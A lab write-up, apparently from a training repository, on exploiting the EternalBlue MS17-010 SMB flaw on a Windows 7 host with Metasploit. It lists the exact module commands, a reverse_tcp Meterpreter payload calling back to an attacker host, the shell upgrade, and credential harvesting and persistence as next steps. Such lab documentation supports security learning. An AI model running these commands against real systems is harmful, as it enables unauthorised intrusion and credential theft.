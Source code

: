 
# EternalBlue MS17-010 Lab Writeup

### Lab Summary
This lab demonstrates exploitation of the MS17-010 SMB vulnerability (EternalBlue) on a Windows 7 system, gaining a remote shell and upgrading it to a Meterpreter session.

---

### Environment
- Target IP: <target-ip>
- Target OS: Windows 7 SP1 (version 6.1.7601)  
- Attacker machine running Metasploit Framework (msf6)

---

### Steps Taken

1. **Start Metasploit**  

   Open terminal and run:

   ```bash
   msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
run
sessions
use post/multi/manage/shell_to_meterpreter
set SESSION <session-id>
run



 ### Lessons Learned

- Importance of patching SMB vulnerabilities  
- Using post-exploitation modules to improve session capabilities  
- Basics of Windows privilege escalation paths (next steps after shell)

---

### Next Steps

- Explore privilege escalation  
- Harvest credentials  
- Persistence techniques

